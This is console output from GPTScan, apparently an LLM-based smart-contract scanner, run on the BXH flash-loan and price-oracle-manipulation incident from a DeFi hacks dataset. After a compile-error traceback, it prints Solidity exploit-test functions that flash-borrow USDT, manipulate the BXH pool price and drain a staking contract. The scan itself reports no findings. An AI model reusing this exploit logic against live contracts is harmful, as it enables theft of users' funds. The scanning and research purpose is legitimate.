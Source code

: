 

  .oooooo.    ooooooooo.   ooooooooooooo  .oooooo..o                                 
 d8P'  `Y8b   `888   `Y88. 8'   888   `8 d8P'    `Y8                                 
888            888   .d88'      888      Y88bo.       .ooooo.   .oooo.   ooo. .oo.   
888            888ooo88P'       888       `"Y8888o.  d88' `"Y8 `P  )88b  `888P"Y88b  
888     ooooo  888              888           `"Y88b 888        .oP"888   888   888  
`88.    .88'   888              888      oo     .d8P 888   .o8 d8(  888   888   888  
 `Y8bood8P'   o888o            o888o     8""88888P'  `Y8bod8P' `Y888""8o o888o o888o                                                        


                                                                   

[16:20:52] Loaded 10 rules                                                                                                                                                                                                                  tasks.py:119
           Traceback (most recent call last):                                                                                                                                                                                               tasks.py:126
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 90, in __init__                                                                                                          
               crytic_compile = CryticCompile(target, **kwargs)                                                                                                                                                                                         
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 131, in __init__                                                                                         
               self._compile(**kwargs)                                                                                                                                                                                                                  
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 553, in _compile                                                                                         
               self._platform.compile(self, **kwargs)                                                                                                                                                                                                   
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 149, in compile                                                                                           
               targets_json = _get_targets_json(compilation_unit, self._target, **kwargs)                                                                                                                                                               
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 278, in _get_targets_json                                                                                 
               return _run_solc(                                                                                                                                                                                                                        
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 483, in _run_solc                                                                                         
               raise InvalidCompilation(                                                                                                                                                                                                                
           crytic_compile.platform.exceptions.InvalidCompilation: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/datasets/skyonedot-DefiHacks-data//20220928 BXH - Flashloan & Price Oracle Manipulation is a directory. Expected a                   
           Solidity file when not using a compilation framework.                                                                                                                                                                                        
                                                                                                                                                                                                                                                        
           During handling of the above exception, another exception occurred:                                                                                                                                                                          
                                                                                                                                                                                                                                                        
           Traceback (most recent call last):                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 124, in simple_cli                                                                                                                                              
               falcon_instance = compile_project(source_dir)                                                                                                                                                                                            
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 103, in compile_project                                                                                                                                         
               return falcon.Falcon(abs_path)                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 94, in __init__                                                                                                          
               raise FalconError(f"Invalid compilation: \n{str(e)}")                                                                                                                                                                                    
           falcon.exceptions.FalconError: Invalid compilation:                                                                                                                                                                                          
           /home/owen/Documents/GitHub/GPTScan-Bigger-Model/datasets/skyonedot-DefiHacks-data//20220928 BXH - Flashloan & Price Oracle Manipulation is a directory. Expected a Solidity file when not using a compilation framework.                    
                                                                                                                                                                                                                                                        
           Compile failed.                                                                                                                                                                                                                  tasks.py:127
           Since the compilation is failed, some static analysis tool may not be enabled, which may cause lower precision and recall.                                                                                                       tasks.py:128
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function testExploit() public {                                                                                                                                                                                                                  │
│                                                                                                                                                                                                                                                      │
│         // Before attack need depoit first                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         // cheat.rollFork(21665464);                                                                                                                                                                                                                 │
│         // cheat.prank(0x81C63d821b7CdF70C61009A81FeF8Db5949AC0C9);                                                                                                                                                                                  │
│                                                                                                                                                                                                                                                      │
│         // //emit log_named_decimal_uint("[Start]  VUSDT Balance Of 0x54f611135A9b88bbE23a8CF6C1310c59321F2717:", vUSDT.balanceOf(address(0x54f611135A9b88bbE23a8CF6C1310c59321F2717)), 18);                                                         │
│         // vUSDT.transfer(address(this), 5582000000000000000000);                                                                                                                                                                                    │
│         // emit log_named_decimal_uint("[Start] contract VUSDT Balance is:", vUSDT.balanceOf(address(this)), 18);                                                                                                                                    │
│                                                                                                                                                                                                                                                      │
│         // vUSDT.approve(0x27539B1DEe647b38e1B987c41C5336b1A8DcE663, type(uint256).max);                                                                                                                                                             │
│                                                                                                                                                                                                                                                      │
│         // bxhtokenstaking.deposit(0, vUSDT.balanceOf(address(this)));                                                                                                                                                                               │
│         // emit log_named_decimal_uint("[Start] contract Despoit VUSDT ", vUSDT.balanceOf(address(this)), 18);                                                                                                                                       │
│                                                                                                                                                                                                                                                      │
│         //cheat.rollFork(21727289);                                                                                                                                                                                                                  │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint("[Start] BXH-USDT  Pair USDT Balance is :" , usdt.balanceOf(address(0x919964B7f12A742E3D33176D7aF9094EA4152e6f)), 18);                                                                                           │
│         usdtwbnbpair.swap(3178800000000000000000000, 0 ,address(this), "0x");                                                                                                                                                                        │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint("[Over] Hacker USDT Balance is :", usdt.balanceOf(address(this)), 18);                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"1": "No"}                                                                                                                                                                                                                                          │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function pancakeCall(address sender, uint256 amount0, uint256 amount1, bytes calldata data) public {                                                                                                                                             │
│         console.log("[Flashloan] received");                                                                                                                                                                                                         │
│         //approve bxh router for usdt                                                                                                                                                                                                                │
│         usdt.approve(0x6A1A6B78A57965E8EF8D1C51d92701601FA74F01, type(uint256).max);                                                                                                                                                                 │
│                                                                                                                                                                                                                                                      │
│         address[] memory path = new address[](2);                                                                                                                                                                                                    │
│         path[0] = address(0x55d398326f99059fF775485246999027B3197955);                                                                                                                                                                               │
│         path[1] = address(0x6D1B7b59e3fab85B7d3a3d86e505Dd8e349EA7F3);                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│         bxhRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(                                                                                                                                                                             │
│             usdt.balanceOf(address(this)) - 805614870582412124618,                                                                                                                                                                                   │
│             1,                                                                                                                                                                                                                                       │
│             path,                                                                                                                                                                                                                                    │
│             address(this),                                                                                                                                                                                                                           │
│             block.timestamp                                                                                                                                                                                                                          │
│         );                                                                                                                                                                                                                                           │
│         emit log_named_decimal_uint("[Flashloan] now Hacker BXH balance is :", BXH.balanceOf(address(this)), 18);                                                                                                                                    │
│                                                                                                                                                                                                                                                      │
│         usdt.transfer(0x27539B1DEe647b38e1B987c41C5336b1A8DcE663, 805614870582412124618);                                                                                                                                                            │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint("[Flashloan] now bxh contract USDT balance is :", usdt.balanceOf(address(0x27539B1DEe647b38e1B987c41C5336b1A8DcE663)), 18);                                                                                      │
│                                                                                                                                                                                                                                                      │
│         cheat.startPrank(0x4e77DF7b9cDcECeC4115e59546F3EAcBA095a89f);                                                                                                                                                                                │
│         bxhtokenstaking.deposit(0, 0);                                                                                                                                                                                                               │
│         usdt.transfer(address(this), usdt.balanceOf(address(0x4e77DF7b9cDcECeC4115e59546F3EAcBA095a89f)));                                                                                                                                           │
│         cheat.stopPrank();                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint("[Flashloan] Hacker USDT Balance is :", usdt.balanceOf(address(this)), 18);                                                                                                                                      │
│         emit log_named_decimal_uint("[Flashloan] bxh contract USDT Balance is :", usdt.balanceOf(address(0x27539B1DEe647b38e1B987c41C5336b1A8DcE663)), 18);                                                                                          │
│                                                                                                                                                                                                                                                      │
│         BXH.approve(0x6A1A6B78A57965E8EF8D1C51d92701601FA74F01, type(uint256).max);                                                                                                                                                                  │
│                                                                                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                      │
│         address[] memory bxh_usdtpath = new address[](2);                                                                                                                                                                                            │
│         bxh_usdtpath[0] = address(0x6D1B7b59e3fab85B7d3a3d86e505Dd8e349EA7F3);                                                                                                                                                                       │
│         bxh_usdtpath[1] = address(0x55d398326f99059fF775485246999027B3197955);                                                                                                                                                                       │
│                                                                                                                                                                                                                                                      │
│         bxhRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(                                                                                                                                                                             │
│             BXH.balanceOf(address(this)),                                                                                                                                                                                                            │
│             1,                                                                                                                                                                                                                                       │
│             bxh_usdtpath,                                                                                                                                                                                                                            │
│             address(this),                                                                                                                                                                                                                           │
│             block.timestamp                                                                                                                                                                                                                          │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint("[Flashloan] Hacker USDT Balance is :", usdt.balanceOf(address(this)), 18);                                                                                                                                      │
│                                                                                                                                                                                                                                                      │
│         uint256 swapfee = amount0 * 26 / 10000;                                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                      │
│         usdt.transfer(address(0x16b9a82891338f9bA80E2D6970FddA79D1eb0daE), amount0 + swapfee);                                                                                                                                                       │
│                                                                                                                                                                                                                                                      │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"1": "No"}                                                                                                                                                                                                                                          │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
                      Scan Results                       
┏━━━━━━┳━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━┓
┃ Type ┃ Description ┃ Affected Files ┃ Analysis Report ┃
┡━━━━━━╇━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━┩
└──────┴─────────────┴────────────────┴─────────────────┘
                    Summary                     
┏━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━┓
┃ Key                  ┃ Value                 ┃
┡━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━┩
│ Files                │ 1                     │
│ Contracts            │ 2                     │
│ Functions            │ 3                     │
│ Lines of Code        │ 344                   │
│ Used Time            │ 2.386505603790283     │
│ Estimated Cost (USD) │ 0.0021660000000000004 │
└──────────────────────┴───────────────────────┘
